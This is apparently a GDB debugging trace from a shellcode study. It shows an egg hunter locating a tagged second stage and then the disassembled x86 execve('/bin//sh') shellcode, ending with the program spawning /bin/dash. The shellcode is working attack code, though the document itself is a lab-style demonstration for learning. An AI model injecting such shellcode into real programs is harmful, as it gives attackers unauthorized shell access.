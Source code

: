 ~~~ nasm
0x0804a086 in egg_hunter ()
(gdb)
$4061 = 0x534b534b
$4062 = 0x804a0a4
$4063 = 0x804a0a0
$4064 = 0x804a0a8
0x804a0a8 <second_stage+8>:	0x31	0xc0	0x50	0x68
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function second_stage:
   0x0804a0a0 <+0>:	dec    ebx
   0x0804a0a1 <+1>:	push   ebx
   0x0804a0a2 <+2>:	dec    ebx
   0x0804a0a3 <+3>:	push   ebx
   0x0804a0a4 <+4>:	dec    ebx
   0x0804a0a5 <+5>:	push   ebx
   0x0804a0a6 <+6>:	dec    ebx
   0x0804a0a7 <+7>:	push   ebx
=> 0x0804a0a8 <+8>:	xor    eax,eax
   0x0804a0aa <+10>:	push   eax
   0x0804a0ab <+11>:	push   0x68732f6e
   0x0804a0b0 <+16>:	push   0x69622f2f
   0x0804a0b5 <+21>:	mov    ebx,esp
   0x0804a0b7 <+23>:	push   eax
   0x0804a0b8 <+24>:	mov    edx,esp
   0x0804a0ba <+26>:	push   ebx
   0x0804a0bb <+27>:	mov    ecx,esp
   0x0804a0bd <+29>:	mov    al,0xb
   0x0804a0bf <+31>:	int    0x80
   0x0804a0c1 <+33>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a0a8 in second_stage ()
(gdb) c
Continuing.
process 5139 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
$
~~~
